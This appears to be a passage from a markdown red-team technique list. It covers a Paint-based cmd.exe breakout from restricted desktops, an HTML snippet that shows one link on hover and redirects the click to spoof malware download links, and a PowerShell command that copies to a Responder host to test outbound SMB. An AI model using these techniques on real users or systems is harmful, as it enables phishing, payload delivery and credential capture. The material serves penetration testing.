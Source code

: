 **Description:** *'An unusual, yet effective method of gaining a shell by creating a shortcut to cmd.exe by drawing certain colours in Microsoft Paint. Due to the encoding algorithm used to write BMP files, it is possible to dictate ASCII data written into a file by carefully selecting certain RGB colours.'*

**Credit:** [PenTestPartners](https://www.pentestpartners.com/)

**Link:** [Blog](https://www.pentestpartners.com/security-blog/breaking-out-of-citrix-and-other-restricted-desktop-environments/#gainingacommandshell)

### [🔙](#tool-list)Link spoofing with PreventDefault JavaScript method

![image](https://user-images.githubusercontent.com/100603074/223849419-c65fec83-ca1c-4a20-ac06-ec2de537a748.png)

```html
<!DOCTYPE html>
<html>
  <head>
    <meta charset="UTF-8">
    <title>PreventDefault Example</title>
  </head>
  <body>
    <a href="https://google.com" onclick="event.preventDefault(); window.location.href = 'https://bing.com';">Go to Google</a>
  </body>
</html>
```

**Description:** *Threat actors have been observed using this technique to trick victims into clicking spoofed in-page malware download links. Using the PreventDefault JavaScript method you can spoof the hover link to display a legit link `google.com`, but once clicked the victim will be redirected to your malicious link `bing.com`. Great for getting victims to download payloads via a controlled site.*

**Link:** [PreventDefault Docs](https://developer.mozilla.org/en-US/docs/Web/API/Event/preventDefault)

### [🔙](#tool-list)Check SMB firewall rules with Responder

![image](https://user-images.githubusercontent.com/100603074/229650380-b651cfc4-896f-4429-b7b4-54d1241a5b39.png)

```powershell
Copy-Item -Path "C:\tmp\" -Destination "\\<ip_running_responder>\c$"
```

**Description:** *'When I do a Compromise Assessment, I often ask the customer if I can do a last quick check: `Copy-Item -Path "C:\tmp\" -Destination "\\<ip_running_responder>\c$"`. If Responder could capture the hash, the firewall allows outgoing SMB connections'*

**Credit:** [@malmoeb](https://twitter.com/malmoeb)

**Link:** [Twitter](https://twitter.com/malmoeb/status/1628272928855826433)

Reconnaissance
====================

